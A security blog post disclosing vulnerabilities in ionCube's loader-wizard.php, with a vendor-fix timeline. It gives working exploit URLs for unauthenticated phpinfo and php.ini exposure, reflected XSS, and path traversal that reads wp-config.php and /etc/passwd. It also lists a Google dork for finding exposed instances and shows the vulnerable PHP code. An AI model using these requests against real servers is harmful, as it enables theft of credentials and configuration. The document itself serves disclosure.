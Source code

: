 +++
Description = "Multiple Vulnerabilities in ionCube Loader-wizard"
title = "Multiple Vulnerabilities in ionCube Loader-wizard"
date = "2014-03-30T12:00:00+01:00"
+++

In a recent security audit I spotted a file on the server which caught my attention: `loader-wizard.php`.

After calling the file via a Browser I noticed it's part of ionCubes encoding and [obfuscation](http://en.wikipedia.org/wiki/Obfuscation) software. The software can be found on [ionCubes Homepage](http://www.ioncube.com/php_encoder.php).

<!--more-->

The software compiles your php code into custom bytecode and performs some obfuscation on variable names, class names and so on. This way you can ship your php based product without revealing the original sourcecode. To teach the server how to interpret the encoded format you need to install a seperate ionCube php extension on your server which decrypts the php files at runtime. In my opinion the extra extension is a little bit too much because there can be some vulnerabilities in there too but it looks like many people are using it. The found file `loader-wizard.php` is a little helper script used to detect if the extension is loaded and guide you through the installation process.

The file itself contains many vulnerabilities which are all exploitable with no authentication.

The current loader-wizard.php file can be downloaded for free from [http://www.ioncube.com/loaders.php](http://www.ioncube.com/loaders.php). I only took a look at the loader-wizard.php script available from [http://www.ioncube.com/loader-wizard/loader-wizard.zip](http://www.ioncube.com/loader-wizard/loader-wizard.zip), but maybe someone wants to take a look at the installer script and the extension too.

Doing a quick search on Google using the dork [inurl:loader-wizard.php](https://www.google.com/search?q=inurl%3Aloader-wizard.php) reveals about 34,400 found files. Assuming no one links an installer script they are all found because directory indexing is active so there are probably much more scripts out there. I checked some of the search results with the "phpinfo vulnerability" described below, and all were vulnerable.

I tested the latest version of the loader available for download at the time of writing (2.42) and version 2.36 which is the one I found on the server. All reported vulnerabilities are present in both versions. You can determine the installed version by looking at the footer of the page.

The fixed version is 2.46. Some vulnerabilities like the phpinfo are not fixed because they represent the functionality of the script. Ioncube added a notice on top of every page to remove the file after successful installation.

# phpinfo exposure
When calling the page `phpinfo` the scripts executes `phpinfo()` and presents the contents.
```
http://server.com/loader-wizard.php?page=phpinfo
```

![phpinfo](/img/ioncube/phpinfo.png "phpinfo")

# php.ini exposure
When calling the page `phpconfig` the scripts reads your `php.ini` settings file and prints out all the contents.

```
http://server.com/loader-wizard.php?page=phpconfig
```

![phpconfig](/img/ioncube/phpconfig.png "phpconfig")

# extra information
When calling the page `extra` the scripts outputs some additional informations about the server.

```
http://server.com/loader-wizard.php?page=extra
```

![extra](/img/ioncube/extra.png "extra")

# Download configs as zipped file
When calling the page `system_info_archive` it's possible to download a zip file containing a copy of the `php.ini`, `phpinfo()` output and the extra informations printed on the `extra` page.

```
http://server.com/loader-wizard.php?page=system_info_archive
```

![archive](/img/ioncube/system_info_archive.png "archive")

# reflected XSS
The script uses the PHP variable `$self` in various places. It's possible to inject script code in the script name and thus the script is vulnerable to reflected cross site scripting.

```
http://server.com/loader-wizard.php/%3Cxss%3E
```

The string `<xss>` is printed out unescaped 10 times.

```html
<link rel="stylesheet" type="text/css" href="/loader-wizard.php/<xss>?page=css">
setTimeout("window.location.href = '/loader-wizard.php/<xss>?page=default&amp;timeout=1'",1000);
window.location.href = '/loader-wizard.php/<xss>?page=default';
xmlHttp.open("GET","/loader-wizard.php/<xss>?page=loaderversion",true);
xmlHttp.open("GET","/loader-wizard.php/<xss>?page=platforminfo",true);
xmlHttp.open("GET","/loader-wizard.php/<xss>?page=compilerversion",true);
xmlHttp.open("GET","/loader-wizard.php/<xss>?page=wizardversion",true);
setTimeout("window.location.href = '/loader-wizard.php/<xss>?page=default&amp;timeout=1'",1000);
<a href="/loader-wizard.php/<xss>?page=default">
<a href="/loader-wizard.php/<xss>?page=default&amp;timeout=1">
```

![xss](/img/ioncube/xss.png "xss")

# Get arbitrary file on server
The page `phpconfig` can be abused to download arbitrary files the webserver has access to.

```
http://server.com/loader-wizard.php?page=phpconfig&ininame=../../../../../../../var/www/wordpress/wp-config.php&download=1
```

```
http://server.com/loader-wizard.php?page=phpconfig&ininame=../../../../../../../etc/passwd&download=1
```

![file](/img/ioncube/file.png "file")

## Vulnerable code

You can see you need to set the `download` parameter to supply an own `ininame`. On line 30 the filepath is constructed without sanitizing the filename.

```php
function phpconfig_page()
{
    info_disabled_check();
    $sys = get_sysinfo();
    $download = get_request_parameter('download');
    $ini_file_name = '';
    if (!empty($download)) {
        $ini_file_name = get_request_parameter('ininame');
        if (empty($ini_file_name)) {
            $ini_file_name = ini_file_name();
        }
        header('Content-Type: text/plain');
        header('Content-Disposition: attachment; filename=' . $ini_file_name);
    } else {
        header('Content-Type: text/plain');
    }
    $exclude_original = get_request_parameter('newlinesonly');
    $prepend = get_request_parameter('prepend');
    $stype = get_request_parameter('stype');
    $server_type = find_server_type($stype);
    if (!empty($exclude_original) || !empty($prepend)) {
        $loader_dir = loader_install_dir($server_type);
        $zend_lines = zend_extension_lines($loader_dir);
        echo join(PHP_EOL,$zend_lines);
        echo PHP_EOL;
    }
    if (empty($ini_file_name) || empty($sys['PHP_INI_DIR']) || ($sys['PHP_INI_BASENAME'] == $ini_file_name)) {
        $original_ini_file = isset($sys['PHP_INI'])?$sys['PHP_INI']:'';
    } else {
        $original_ini_file = $sys['PHP_INI_DIR'] . DIRECTORY_SEPARATOR . $ini_file_name;
    }
    if (empty($exclude_original) && !empty($original_ini_file) && @file_exists($original_ini_file)) {
        if (!empty($download)) {
            @readfile($original_ini_file);
        } else {
            echo all_ini_contents();
        }
    }
}
```

# Timeline
02.03.2014 - Contacted Vendor

02.03.2014 - Response from vendor, will be fixed asap

04.03.2014 - Fixed version released (2.46)

30.03.2014 - Blog post published

